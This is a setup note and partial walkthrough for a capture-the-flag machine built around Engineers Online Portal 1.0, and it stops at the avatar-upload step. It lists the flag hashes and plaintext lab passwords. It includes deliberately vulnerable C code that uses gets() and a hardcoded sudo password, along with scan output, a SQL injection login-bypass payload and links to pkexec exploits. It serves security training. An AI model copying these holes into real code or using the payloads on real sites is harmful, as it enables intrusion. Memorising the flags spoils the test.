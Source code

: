 # Engineer-CTF

## Introduction

This is to introduce the multiple vulnerabilities in Engineers Online Portal 1.0 that could be chained together to obtain rce. Next, this box aims to tell why allowing mysql connection to remote host isn't a good idea. Finally, it takes a little buffer overflow skills to exploit a manually coded binary, and some basic knowledge of how CVE-2021-4034 works to escalate to root.

## Info for HTB

| hash | content |
| ---- | ------- |
| user.txt | 7d58250d6dec957ab2b8ded3fd925e85 |
| root.txt | 89d975f8ac623a6fdb0246bc01eefbf2 |

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| root | nocrackpleaseno! |
| cybercraze | nocrackpleaseno! |
| root(mysql) | youshallnotcrackthis |
| admin(engineer-portal admin) | youshallnotcrackthis |
| ralph(engineer-portal user) | ralphthelegend |
| tom(engineer-portal user) | tomandjerry |
| jez(engineer-portal user) | jezmusic |
| andres(engineer-portal user) | andresrevolutionary |

### Other

1. The online engineer portal is built using the original source code version 1.0. There's no deliberate manipulation of the source code to allow the further exploit done.
2. There's stored password in the binary "mysql-into-cybercraze-group", but it is made unreadable and hence using strings or downloading for local inspection will fail.
3. source code for mysql-into-cybercraze-group

            #include <stdio.h>
            #include <string.h>
            #include <stdlib.h>

            int main(void)
            {
            char buff[15];
            int pass = 0;

            printf("\n Enter the password : \n");
            gets(buff);

            if(strcmp(buff, "nocrackplzno!"))
            {
            printf ("\n Wrong Password \n");
            }
            else
            {
            printf ("\n Correct Password \n");
            pass = 1;
            }

            if(pass)
            {
            /* including mysql to cybercraze group */
            printf ("\n Including user mysql to cybercraze group \n");
            system ("echo 'nocrackpleaseno!' | sudo -S -k usermod -aG cybercraze mysql");
            }

            return 0;
            }
*notice the vulnerable function gets() to read password is used, which is vulnerable to buffer overflow

4. vulnerable /usr/bin/pkexec is moved to /opt/pkexec, where /opt is only readable and executable by user cybercraze

5. exploits refer to:

https://www.exploit-db.com/exploits/50452

https://www.idappcom.co.uk/post/engineers-online-portal-1-0-remote-code-execution

https://www.exploit-db.com/exploits/50453

https://github.com/berdav/CVE-2021-4034

## Writeup

1. Nmap Scan

            $nmap -sCV 192.168.0.186
            Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-05 14:29 +08
            Nmap scan report for engineer.htb (192.168.0.186)
            Host is up (0.027s latency).
            Not shown: 997 closed ports
            PORT     STATE SERVICE VERSION
            22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
            | ssh-hostkey: 
            |   3072 e7:67:ab:72:53:be:d6:f3:7b:3d:c0:48:7f:31:34:fa (RSA)
            |   256 21:93:3c:26:89:14:9f:4a:7c:8c:bf:a1:b5:f6:5d:b3 (ECDSA)
            |_  256 d1:ed:71:b7:69:ef:64:12:e4:5a:99:cb:41:30:ae:f0 (ED25519)
            80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
            |_http-server-header: Apache/2.4.41 (Ubuntu)
            |_http-title: Onix Digital Marketing HTML5 Template
            3306/tcp open  mysql   MySQL 8.0.28-0ubuntu0.20.04.3
            | mysql-info: 
            |   Protocol: 10
            |   Version: 8.0.28-0ubuntu0.20.04.3
            |   Thread ID: 11
            |   Capabilities flags: 65535
            |   Some Capabilities: LongColumnFlag, SwitchToSSLAfterHandshake, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, DontAllowDatabaseTableColumn, InteractiveClient, SupportsLoadDataLocal, Support41Auth, LongPassword, SupportsCompression, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, ODBCClient, Speaks41ProtocolNew, FoundRows, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
            |   Status: Autocommit
            |   Salt: 3n!U1~"\x02\x08R:     ,fO\x11w\x05fs
            |_  Auth Plugin Name: caching_sha2_password
            | ssl-cert: Subject: commonName=MySQL_Server_8.0.28_Auto_Generated_Server_Certificate
            | Not valid before: 2022-04-03T08:32:53
            |_Not valid after:  2032-03-31T08:32:53
            Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

            Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
            Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds

2. Basic Enumeration of index.html and found domain name engineer.htb via email address scattered in the page. (e.g info@engineer.htb, contact@engineer.htb) Edit /etc/hosts to add the domain name for the target ip.

*first view of index.html:
<img src=img/index.png>
*email address ending with @engineer.htb
<img src=img/email.png>

3. There's no interesting port or web content. Use gobuster to enumerate for subdomains: (using subdomains wordlist provided by seclists)
            $gobuster vhost -u engineer.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt 
            ===============================================================
            Gobuster v3.1.0
            by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
            ===============================================================
            [+] Url:          http://engineer.htb
            [+] Method:       GET
            [+] Threads:      10
            [+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
            [+] User Agent:   gobuster/3.1.0
            [+] Timeout:      10s
            ===============================================================
            2022/04/05 14:33:56 Starting gobuster in VHOST enumeration mode
            ===============================================================
            Found: webportal.engineer.htb (Status: 200) [Size: 9749]

            ===============================================================
            2022/04/05 14:34:01 Finished
            ===============================================================

4. first view reveals that the site hosts an online engineer's portal
<img src=img/webportal.png>

5. sql injection auth bypass in online engineer's portal v1.0

*refer to https://www.exploit-db.com/exploits/50452

bypass the login form authentication with sql payloads as follow:

            username:' OR '1'='1';-- -
            password:anystring

6. rce via uploading avatar

*refer to https://www.idappcom.co.uk/post/engineers-online-portal-1-0-remote-code-execution
/teacher_avatar.php
